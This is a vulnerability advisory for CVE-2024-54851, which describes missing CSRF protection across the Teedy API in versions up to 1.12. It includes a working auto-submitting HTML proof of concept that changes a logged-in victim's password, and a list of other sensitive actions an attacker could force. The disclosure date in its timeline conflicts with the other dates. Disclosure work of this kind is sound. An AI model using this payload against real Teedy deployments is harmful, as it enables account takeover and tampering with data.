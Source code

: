 # CVE-2024-54851

## Summary

| ID                    | CVE-2024-54851                                           |
|-----------------------|----------------------------------------------------------|
| **Type**              | CSRF                                                     |
| **Title**             | Multiple CSRF                                            |
| **Product impacted**  | Teedy                                                    |
| **Impacted version**  | <= 1.12                                                  |
| **CVSS Score**        | 6.5                                                      |
| **Author**            | Sopalinge                                                |

## Description

Due to the lack of Cross-Site Request Forgery (CSRF) protections, most requests of the Teedy API in versions 1.12 and prior are vulnerable to such attack. This allows unauthenticated remote attackers to trick users into unknowingly performing arbitrary actions, such as editing profile information or tampering with the application data.

The only requests that are not vulnerable are the ones that ask for the account password, as it can't be guessed by the attacker.

The session cookie `SameSite` attribute is not defined, therefore the exploitation of POST CSRF will depend on the browser of the victim.

## Impact

The Teedy API documentation did not reveal any sensitive GET requests. However, multiple POST/PUT/DELETE... requests are sensitive and vulnerable to CSRF. The following requests are vulnerable (non-exhaustive list) :
 - Password change for current user
 - Account information change for any user
 - Account deletion for current or any user
 - Disable TOTP authentication for any user
 - Create a new user
 - Add any user to any group
 - Remove any user to any group
 - Delete group
 - ...


## Proof of concept

This PoC will trick the user into changing its current password for the one defined in the `value` attributes below. The attacker has to host the following page onto its server and trick a user connected to Teedy to visit this website.
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://172.21.114.187:8080/api/user" method="POST">
      <input type="hidden" name="password" value="hackedpwd" />
      <input type="hidden" name="passwordconfirm" value="hackedpwd" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

> [!IMPORTANT]
> In Chromium-based browser, the user needs to have connected 2 min prior to visiting the attacker page, due to the default behaviour of the SameSite attribute when not defined [^1].

[^1]: [Chromium SameSite FAQ](https://www.chromium.org/updates/same-site/faq/)

## Timeline

- 23/10/2024 : Vulnerability discovered
- 24/10/2024 : Vendor contacted
- 12/12/2024 : CVE ID attributed
- 28/01/2024 : CVE publicly disclosed


## References

- [Teedy source code](https://github.com/sismics/docs)
